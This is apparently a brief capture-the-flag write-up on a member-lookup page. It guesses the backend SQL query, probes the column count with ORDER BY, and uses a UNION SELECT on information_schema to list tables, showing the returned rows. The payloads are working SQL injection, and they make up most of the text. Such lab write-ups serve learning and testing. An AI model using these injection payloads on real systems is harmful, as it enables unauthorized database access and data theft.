 - On this page, we can look for members though their IDs.
- We can suppose the original query looks like something like this:
    - SELECT name, surname FROM users WHERE id = $input;

- The fifth one is telling "Hack me", let's guess how many columns there are:
    - 5 ORDER BY 1
    - 5 ORDER BY 2
    - 5 ORDER BY 3 -> Error, we can guess that there is only 2 columns.


- 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database()
```
ID: 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() 
First name: Flag
Surname : GetThe
ID: 5 UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() 
First name: users
Surname : 2
```

- this confirms us that the table users exist.
